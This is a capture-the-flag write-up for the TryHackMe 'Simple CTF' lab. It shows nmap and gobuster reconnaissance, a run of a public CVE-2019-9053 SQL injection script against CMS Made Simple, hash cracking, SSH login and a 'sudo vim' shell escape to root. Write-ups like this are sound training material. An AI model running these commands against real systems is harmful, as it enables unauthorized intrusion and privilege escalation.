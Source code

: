 # TryHackMe: Simple CTF Write-Up

## Nmap Scan

I began by running an Nmap scan to identify open ports and services on the target machine.
```bash
nmap -sV 10.10.2.131
```

![Nmap Scan](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/nmap.png)

The scan revealed that FTP, HTTP, and SSH services were running.

## Initial Web Exploration

I visited the website, but initially, nothing significant was found.

### Gobuster Directory Bruteforce

Next, I performed a Gobuster directory brute force attack:
```bash
gobuster dir -u http://10.10.2.131/ -w common.txt
```

![Gobuster Output](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/gobuster.png)

This led me to the path [http://10.10.2.131/simple/](http://10.10.2.131/simple/), where I discovered that the website was running CMS Made Simple version 2.2.8. This information was hinted at by the "hints" button on the TryHackMe page.

![CMS Made Simple Version](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/website.png)

## Exploit Search

I used SearchSploit to find a relevant exploit and found a SQL injection vulnerability.
```bash
searchexploit cms made simple
```

![SearchSploit Results](https://github.com/Anjai7/Tryhackme_CTF/blob/main/exploit.png)
## Exploit Execution

The initial exploit was written in Python2. I searched for a Python3 version and found it on GitHub:

- [Python3 Exploit Script](https://github.com/Jason-Siu/CVE-2019-9053-Exploit-in-Python-3/blob/main/46635.py)

I integrated this script with the original exploit and executed it. The process took about 10-15 minutes.(also had the hint in try hack me to use this word list)
```bash
python3 /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.2.131/simple/ -w /opt/SecLists/Passwords/Common-Credentials/best110.txt
```

![Exploit Execution](https://github.com/Anjai7/Tryhackme_CTF/blob/main/credentials.png)

## Cracking the Password Hash

The exploit provided a salt and password hash, which I used with Hashcat to crack the password.

![Hashcat Output](https://raw.githubusercontent.com/Anjai7/Tryhackme_CTF/main/hashcracking.png)

## SSH Access

Using the cracked password, I connected via SSH:

```bash
ssh mitch@10.10.2.131 -p 2222
```
![SSH Access](https://github.com/Anjai7/Tryhackme_CTF/blob/main/ssh.png)

## Finding User
Navigate to home dirctory and use ls
```bash
cd /home/
ls
```
![User](https://github.com/Anjai7/Tryhackme_CTF/blob/main/user.png)

## Previlage Execution
Unable to spawn a privileged shell through my initial attempts, I consulted other write-ups and discovered that leveraging vim with sudo permissions could be used for privilege escalation.
```bash
sudo vim
```
```bash
:!bash
```
[!Previlage](https://github.com/Anjai7/Tryhackme_CTF/blob/main/previlage.png)
![Root](https://github.com/Anjai7/Tryhackme_CTF/blob/main/root.png)
